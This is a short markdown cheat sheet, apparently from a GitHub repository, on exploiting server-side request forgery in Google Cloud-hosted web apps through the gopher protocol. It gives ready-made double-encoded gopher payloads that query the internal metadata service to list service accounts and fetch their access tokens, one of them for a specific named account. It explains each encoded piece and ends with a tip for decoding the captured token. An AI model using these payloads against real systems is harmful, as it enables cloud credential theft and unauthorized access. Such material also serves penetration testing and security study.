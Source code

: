 # SSRF using Gopher protocol

### If we successfully detect a SSRF vulnerability in a web app and the web app is hosted on GCP, we may use specific protocols and URLs to request specific information, depending on the case.

### URL Example:

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a

# Breakdown

## Protocol and Target: gopher://metadata.google.internal:80/ 

#### This part of the payload specifies that the Gopher protocol is being used to make a request to metadata.google.internal on port 80. As mentioned, metadata.google.internal is a special domain used internally by Google Cloud services to provide metadata information to VM instances.

## Crafted Request: GET /computeMetadata/v1/instance/service-accounts/SERVICE_ACCOUNT/token 

#### This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.

## %2520HTTP%252f%2531%252e%2531 

#### This is an encoded form of " HTTP/1.1"

## %250AHost:%2520metadata.google.internal 

#### This is an encoded header specifying the host.

## %250AAccept:%2520%252a%252f%252a 

#### Encoded header for the Accept field, indicating that any media type is acceptable in response.

## %250aMetadata-Flavor:%2520Google 

#### Importantly this sets the header that is required to access the metadata service.

## SSRF Payloads

### List Service Accounts

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

### Fetch Access Token of the listed Service Account 

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

## TIP: The response is HTML encoded so we can select the entire token, right-click it and select Convert selection > HTML > HTML-decode

